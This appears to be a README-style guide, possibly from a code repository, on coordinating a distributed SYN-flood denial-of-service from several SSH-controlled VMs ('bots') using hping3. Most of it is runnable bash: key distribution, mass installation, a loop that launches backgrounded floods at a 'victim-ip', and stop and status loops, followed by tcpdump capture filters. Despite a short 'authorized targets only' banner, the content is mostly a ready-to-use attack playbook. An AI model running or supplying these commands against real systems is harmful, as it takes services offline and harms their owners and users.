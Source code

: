 ⟦ ssh-keygen → distribute → install hping3 → launch flood → monitor → stop ⟧

☣ AUTHORIZED TARGETS ONLY ☣

☛ Misuse = ⚖ Legal Risk ☚

---

1. **Generate SSH key on control VM (if not done):**

```bash
ssh-keygen -t rsa -b 2048 -f ~/.ssh/id_rsa -N ""
```

2. **Copy SSH key to each VM (replace user and IPs):**

```bash
ssh-copy-id user@vm1-ip
ssh-copy-id user@vm2-ip
ssh-copy-id user@vm3-ip
ssh-copy-id user@vm4-ip
ssh-copy-id user@vm5-ip
ssh-copy-id user@vm6-ip
```

3. **Install hping3 on all VMs (run once per VM):**

```bash
ssh user@vm1-ip 'sudo apt-get update && sudo apt-get install -y hping3'
ssh user@vm2-ip 'sudo apt-get update && sudo apt-get install -y hping3'
ssh user@vm3-ip 'sudo apt-get update && sudo apt-get install -y hping3'
ssh user@vm4-ip 'sudo apt-get update && sudo apt-get install -y hping3'
ssh user@vm5-ip 'sudo apt-get update && sudo apt-get install -y hping3'
ssh user@vm6-ip 'sudo apt-get update && sudo apt-get install -y hping3'
```

4. **Prepare a bash one-liner to start hping3 DoS simultaneously from control VM:**

Create a file `vms.txt` listing IPs of all bots:

```
vm1-ip
vm2-ip
vm3-ip
vm4-ip
vm5-ip
vm6-ip
```

5. **Run simultaneous DoS from all bots:**

```bash
target_ip="victim-ip"
for ip in $(cat vms.txt); do
  ssh user@$ip "nohup sudo hping3 -S --flood $target_ip > /dev/null 2>&1 &"
done
```

6. **To stop all attacks:**

```bash
for ip in $(cat vms.txt); do
  ssh user@$ip "sudo pkill hping3"
done
```

7. **Check if hping3 is running on bots:**

```bash
for ip in $(cat vms.txt); do
  ssh user@$ip "pgrep hping3 && echo 'Running on $ip' || echo 'Not running on $ip'"
done
```

8. **Optional: Handling Different Usernames per VM**

If the VMs use different usernames, listing only IP addresses in `vms.txt` is insufficient. Instead, each entry should include the username and IP address in the format:

```
user1@vm1-ip
user2@vm2-ip
user3@vm3-ip
user4@vm4-ip
user5@vm5-ip
user6@vm6-ip
```

This approach explicitly specifies the SSH login for each VM.

---

### Updated commands using `user@ip` entries in `vms.txt`

**Copy SSH keys to all VMs:**

```bash
while read -r user_host; do
  ssh-copy-id "$user_host"
done < vms.txt
```

---

**Install hping3 on all VMs:**

```bash
while read -r user_host; do
  ssh "$user_host" 'sudo apt-get update && sudo apt-get install -y hping3'
done < vms.txt
```

---

**Run simultaneous DoS attack from all bots:**

```bash
target_ip="victim-ip"
while read -r user_host; do
  ssh "$user_host" "nohup sudo hping3 -S --flood $target_ip > /dev/null 2>&1 &"
done < vms.txt
```

---

**Stop all attacks:**

```bash
while read -r user_host; do
  ssh "$user_host" "sudo pkill hping3"
done < vms.txt
```

---

**Check if hping3 is running on bots:**

```bash
while read -r user_host; do
  ssh "$user_host" "pgrep hping3 && echo 'Running on $user_host' || echo 'Not running on $user_host'"
done < vms.txt
```

---

### Notes

**tcpdump commands for victim and bot**

### Victim (capture incoming SYN flood packets):

```bash
sudo tcpdump -i eth0 -nn -s 0 -w syn_flood_victim.pcap 'tcp[tcpflags] & tcp-syn != 0 and tcp[tcpflags] & tcp-ack == 0 and dst host <victim-ip>'
```

---

### Bot (capture outgoing SYN flood packets):

```bash
sudo tcpdump -i eth0 -nn -s 0 -w syn_flood_bot.pcap 'tcp[tcpflags] & tcp-syn != 0 and tcp[tcpflags] & tcp-ack == 0 and src host <bot-ip> and dst host <victim-ip>'
```

---

**Replace `<victim-ip>` and `<bot-ip>` with real IPs.**

Stop capture with `Ctrl+C`. Files save for later analysis.

---
